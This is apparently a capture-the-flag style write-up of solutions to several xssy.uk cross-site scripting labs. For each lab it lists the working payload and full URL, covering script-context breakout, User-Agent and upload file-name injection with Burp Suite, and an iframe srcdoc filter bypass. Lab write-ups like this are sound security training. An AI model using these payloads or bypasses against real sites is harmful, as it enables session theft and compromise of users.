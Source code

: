 
### Lab 175: Script Context XSS 2
- **URL Lab**: https://xssy.uk/lab/175
- **Payload**: 
```javascript
";</script><script>alert(document.cookie);//
```
- **Full URL**: 
```
https://q2je5dje.xssy.uk/target.ftl?name=%22;%3C/script%3E%3Cscript%3Ealert(document.cookie);//
```

---

### Lab 178: Stored XSS in User Agent
- **URL Lab**: https://xssy.uk/lab/178
- **Payload**: 
```html
<body onload=alert(document.cookie)>
```
- **Full URL**: 
```
https://xgo4vsgo.xssy.uk/target.ftl?name=%3Cbody+onload%3Dalert%28document.cookie%29%3E
```
- **Description**: Using Burp Suite to intercept request & then add this payload in User-Agent header: `<body onload=alert(document.cookie)>`

---

### Lab 674: File Name XSS
- **URL Lab**: https://xssy.uk/lab/674
- **Reference**: https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-h8hr-jhcx-fcv9
- **Payload**: Intercept request using Burp Suite & change body request:
```http
filename="<img src=x onerror=alert(document.domain)>.svg.png"
Content-Type: application/vnd.ms-excel

<script>alert(document.cookie)</script>
```
- **Submitted URL**: 
```
https://y4vtqelm.xssy.uk/
```
- **Description**: The popup alert triggered in response:
```html
Last file uploaded: <a href="/upload/<img src=x onerror=alert(document.cookie)>.svg.jpg"><img src=x onerror=alert(document.cookie)>.svg.jpg</a></p>
```

---

### Lab 55: Safe HTML Filter [onerror filtered]
- **URL Lab**: https://xssy.uk/lab/55
- **Payload**: 
```html
<iframe srcdoc="<script>alert(document.cookie)</script>">
```
- **Full URL**: 
```
https://js2i6iof.xssy.uk/target.ftl?name=<iframe srcdoc="<script>alert(document.cookie)</script>">
```
- **Description**: Create iframe to bypass filter without event-handler

---